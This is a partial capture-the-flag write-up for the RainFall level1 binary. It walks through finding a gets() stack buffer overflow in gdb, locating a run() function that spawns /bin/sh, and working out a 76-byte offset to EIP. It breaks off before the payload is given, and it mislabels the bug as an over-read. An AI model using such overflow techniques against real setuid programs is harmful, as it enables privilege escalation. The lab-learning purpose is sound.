level1
======

*	We spawn with a [level1](source/level1) executable
	```console
	level1@RainFall:~$ ls -l
	total 732
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	level1@RainFall:~$ ./level1 test
	█
	```
*	So we get an endless loop here, let's do as usual
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level1@192.168.29.4:~/level1 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh
	```
*	When we take a look at the main it looks like I was wrong, the code use the function `gets()` which led me to think that the program is reading the input (My mistake here, I should've at least tried to add something)
*	We also have another function called `run()`, this one uses `fwrite()`.
*	Looking deeper into gdb, we can see that it takes $eax=`("Good... Wait what?\n")` and then it calls `system()` to execute `/bin/sh`
*	So, now we are dealing with a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/)
*	Here we can see the buffer is sized `80` bytes
	```assembly
	sub    $0x50,%esp
	```
*	Instead of using python I made a little [program](source/randomStr.sh) in shell to get a random string of `x` char
	```console
	level1@RainFall:~$ echo str > /tmp/exlpoit
	```
*	Since this program is more of a buffer *over-READ* issue, we need to put our exploit in a file instead of doing it on the terminal directly
	```console
	level1@RainFall:~$ gdb ./level1
	(gdb) r < /tmp/exploit
	Starting program: /home/user/level1/level1 < /tmp/exploit

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()
	```
*	I found this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to get calculate the offset and it is `76`
*	Now all we need to to is make a string of 76 characters and add the exploit after those
*	